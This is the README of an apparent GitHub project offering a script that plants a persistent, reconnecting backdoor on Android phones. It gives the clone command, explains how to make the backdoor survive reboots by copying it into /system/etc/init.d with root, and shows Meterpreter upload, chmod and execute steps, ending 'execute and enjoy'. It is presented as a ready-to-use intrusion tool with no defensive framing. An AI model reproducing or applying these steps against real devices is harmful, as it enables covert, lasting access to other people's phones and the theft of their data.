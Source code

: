 # My persistant android backdoor

## Installation
```
git clone https://github.com/derosploit/android-persistant.sh/
```
## Description
This scripts creates a persistent reconnecting backdoor on android phones  
when run this script is active until reboot on non-rooted devices
To make it persistent on reboot  
copy the persistant.sh in the /system/etc/init.d folder #N.B this requires root permission on device
## Implementation
This script is implemented using  metersploit
## Requirements
a running meterpreter session on target device
## Usage
upload the script in the device,execute and enjoy

Assume this is our meterpreter session  
meterpreter> upload persistent.sh  
meterpreter> shell   
chmod 755 persistent.sh  
./persistent.sh  

##Enjoy!

